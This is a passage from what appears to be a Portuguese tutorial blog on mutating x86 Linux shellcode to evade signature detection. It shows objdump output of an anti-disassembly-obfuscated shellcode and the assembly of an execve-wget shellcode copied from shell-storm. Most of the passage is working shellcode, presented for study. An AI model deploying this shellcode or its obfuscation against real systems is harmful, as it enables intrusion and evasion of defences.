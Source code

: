 Outro jump utilizado é a JNZ, logo após o XORing de EDX e EBX; como eles tem
valores diferentes, a ZF nunca será setada, condicionando a JNZ a sempre efetuar
o jump. ;)

Abaixo, a saída do objdump.

{% highlight console %}
08048060 <_start>:
 8048060:    29 ff                    sub    %edi,%edi
 8048062:    74 01                    je     8048065 <_start+0x5>
 8048064:    e8 83 c7 24 97           call   9f2947ec <_end+0x9724b754>
 8048069:    eb 01                    jmp    804806c <_start+0xc>
 804806b:    e1 cd                    loope  804803a <_start-0x26>
 804806d:    80 eb 01                 sub    $0x1,%bl
 8048070:    ff 6a 29                 ljmp   *0x29(%edx)
 8048073:    59                       pop    %ecx
 8048074:    eb 01                    jmp    8048077 <_start+0x17>
 8048076:    01 bb 67 45 23 01        add    %edi,0x1234567(%ebx)
 804807c:    ba ca 9b c2 ff           mov    $0xffc29bca,%edx
 8048081:    31 da                    xor    %ebx,%edx
 8048083:    75 01                    jne    8048086 <_start+0x26>
 8048085:    e7 87                    out    %eax,$0x87
 8048087:    da 8d 41 2f 8d 89        fimull -0x7672d0bf(%ebp)
 804808d:    40                       inc    %eax
 804808e:    19 12                    sbb    %edx,(%edx)
 8048090:    28 eb                    sub    %ch,%bl
 8048092:    02 e8                    add    %al,%ch
 8048094:    01 cd                    add    %ecx,%ebp
 8048096:    80                       .byte 0x80
{% endhighlight %} [//]: # (_)

Tem que ter um olho muito treinado! :D

Original: 33 bytes<br>
Mutated: 55 bytes

Antes do Next, leiam sobre os <s>easter eggs</s> [magic
numbers](http://en.wikipedia.org/wiki/Linus_Torvalds#Personal_life) <s>do Linus
Torvalds</s> usados na syscall reboot.

Next.

##3rd shellcode - execve wget

Original [here](http://shell-storm.org/shellcode/files/shellcode-611.php) (AT&T
syntax).

{% highlight asm %}
push   $0xb
pop    %eax
cltd   
push   %edx
push   $0x61616161
mov    %esp,%ecx
push   %edx
push   $0x74
push   $0x6567772f
push   $0x6e69622f
push   $0x7273752f
mov    %esp,%ebx
push   %edx
push   %ecx
push   %ebx
mov    %esp,%ecx
int    $0x80
inc    %eax
int    $0x80
{% endhighlight %}